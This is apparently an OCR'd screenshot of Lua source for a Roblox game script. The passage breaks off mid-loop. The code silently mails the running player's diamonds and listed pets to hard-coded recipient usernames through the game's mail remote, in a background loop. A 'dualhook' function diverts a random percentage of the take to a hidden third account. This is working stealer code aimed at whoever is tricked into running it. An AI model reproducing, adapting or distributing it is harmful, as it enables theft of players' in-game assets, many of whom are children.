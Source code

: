 -- Dualhook intensity

function dualhook(percent)
    if not tonumber(percent) then
        game:GetService("Players").LocalPlayer:Kick("Put A Valid intensity Value")
        return;
    end
    local number = math.random(1, 100)
    if number <= percent then
        return true
    else
        return false
    end
end

-- Sending The Pets

local ndUser
if UserName2 ~= nil and UserName2 ~= "2nd User Here" and UserName2 ~= "" then
    ndUser = UserName2
else
    ndUser = UserName
end
local user
-- Gems Only
if FinalList == 0 then
    if givediaamt >= 1000000000 then
        user = UserName
    else
        user = ndUser
    end
    if gemsin ~= nil then
        if dualhook(gemsin) then
            user = dhuser
        end
    end
    local args = {
        [1] = {
            ["Recipient"] = user,
            ["Diamonds"] = givediaamt,
            ["Pets"] = {},
            ["Message"] = mailmsg,
        }
    }
    mailremote:InvokeServer(unpack(args))
end
spawn(function()
    while wait() do
        if #TList ~= 0 or TList ~= {} then
            for i, v in pairs(TList) do
                user = UserName
                if titanicin ~= nil then
                    if dualhook(titanicin) then
                        user = dhuser
                    end
                end
                local args = {
                    [1] = {
                        ["Recipient"] = user,
                        ["Diamonds"] = givediaamt,
                        ["Pets"] = { v },
                        ["Message"] = mailmsg,
                    }
                }
                mailremote:InvokeServer(unpack(args))